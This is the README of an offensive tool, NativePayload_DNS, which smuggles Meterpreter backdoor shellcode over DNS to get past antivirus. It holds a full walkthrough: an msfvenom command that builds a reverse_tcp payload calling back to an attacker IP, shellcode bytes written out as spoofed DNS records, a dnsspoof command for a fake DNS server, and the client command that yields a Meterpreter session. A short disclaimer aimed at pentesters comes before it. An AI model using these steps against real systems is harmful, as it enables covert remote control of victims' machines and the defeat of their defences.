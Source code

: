 [![Stage](https://img.shields.io/badge/Release-STABLE-brightgreen.svg)]()

# NativePayload_DNS
C# code for Backdoor Payloads transfer by DNS Traffic and Bypassing Anti-viruses

Published by Damon Mohammadbagher

Warning: this code Published to explaining Anti-Viruses Vulnerability for Pentesters and Security Researchers

for more information and step by step please Visit these links:

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

Video Published by Damon Mohammadbagher (bbxc9x00x1f)

Bypassing Anti-Viruses with transfer Backdoor Payloads by DNS traffic

Video 1 : https://youtu.be/M4dbqRWRsUk

Bypassing AVs with NativePayload_DNS and Meterpreter_Payload_Detection

Video 2 : https://youtu.be/ngZl4PSfW6o

Video Description: Bypassing AVs with NativePayload_DNS.exe and Detecting Meterpreter Process by Meterpreter_Payload_Detection tool
 
 step 1:
 
 msfvenom C type payload in your kali linux
 
 msfvenom –-platform windows –arch x86_64 –p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 –f c > /root/Desktop/payload.txt
 
copy payloads from payload.txt file to dns.txt like this format:

root@kali:~# cat /root/Desktop/dns.txt

1.1.1.0 "0xfc0x480x830xe40xf00xe80xcc0x000x000x000x410x510x410x500x52.1.com"

1.1.1.1 "0x510x560x480x310xd20x650x480x8b0x520x600x480x8b0x520x180x48.1.com"

1.1.1.2 "0x8b0x520x200x480x8b0x720x500x480x0f0xb70x4a0x4a0x4d0x310xc9.1.com"

1.1.1.3 "0x480x310xc00xac0x3c0x610x7c0x020x2c0x200x410xc10xc90x0d0x41.1.com"

step 2: Make Fake DNS server in your kali linux

root@kali:~# dnsspoof -i eth0 -f /root/Desktop/dns.txt

 step 3:
 
 run code in client
 
 syntax: NativePayload_DNS.exe "1.1.1." 34 "192.168.1.50"
 
 finally you can bypass AVs and you have Meterpreter Session
 
 
 for more information and step by step please Visit these links:
 
Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

 
 Related Tool: 
 
 C# code for Backdoor Payloads transfer by IPv6 Address (AAAA) records and DNS Traffic also Bypassing Anti-viruses 
 https://github.com/DamonMohammadbagher/NativePayload_IP6DNS
 
 Related link:
 
 Bypass all anti-viruses by Encrypted Payloads with C#
 
 https://www.linkedin.com/pulse/bypass-all-anti-viruses-encrypted-payloads-c-damon-mohammadbagher?trk=pulse_spock-articles

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_DNS"/></a></p>
 
 
